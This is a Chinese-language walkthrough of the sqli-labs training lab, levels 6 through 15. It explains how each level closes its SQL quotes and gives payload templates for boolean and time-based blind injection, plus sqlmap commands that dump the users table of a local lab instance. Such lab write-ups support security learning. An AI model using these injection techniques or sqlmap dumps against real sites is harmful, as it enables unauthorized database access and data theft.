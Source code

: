 没有回显，也是布尔注入，测试参数时不难发现第六关是第五关的双引号版
`?id=1" and XXXX`
`sqlmap -u "http://localhost/sqli-labs-master/Less-6?id=1" -D security -T users --columns --batch`

### 第 7 关

在第 5 关的基础上更进了一步，把报错信息黑箱了，注入 `?id=1'` 时只能知道 "You have an error in your SQL syntax" 而没有具体的报错，但注入 `?id=1"` 时却没报错，说明是单引号闭合了 SQL 语句，注入 `?id=1'--+` 依然报错，说明 SQL 语句没有完全闭合，尝试添加一个括号，仍然报错，有点没有头绪，看了 php 源代码，发现前端输入被一个单引号和两个括号包裹，因此注入时 and 前面的部分写成 `?id=1'))` 即可
`?id=1)) and XXXX`
`sqlmap -u "http://localhost/sqli-labs-master/Less-7?id=1" -D security -T users --columns --batch`
``

### 第 8 关

和第 5 关一样，只是没有了第 5 关的报错信息
`?id=1' and XXXX`
`sqlmap -u "http://localhost/sqli-labs-master/Less-8?id=1" -D security -T users --columns --batch`

### 第 9 关

无论参数怎么填页面都没有变化，应该是时间盲注，建议一把梭
`?id=1' and if(XXX,sleep(5),1)--+`
`sqlmap -u "http://localhost/sqli-labs-master/Less-9?id=1\'" -D security -T users --columns --batch`

### 第 10 关

第 9 关换成双引号即可
`?id=1" and if(XXX,sleep(5),1)--+`
`sqlmap -u "http://localhost/sqli-labs-master/Less-10?id=1\"" -D security -T users --columns --batch`

### 第 11 关

POST 方法版的第一关，需要注意的是 post 方法的 data 数据不会被 URL 编码，把--= 改成--(空格)即可

### 第 12 关

双引号加括号版的第 11 关

### 第 13 关

单引号加括号版的第 11 关

### 第 14 关

双引号版的第 11 关

### 第 15 关

没有错误信息的回显的第 11 关，布尔盲注即可
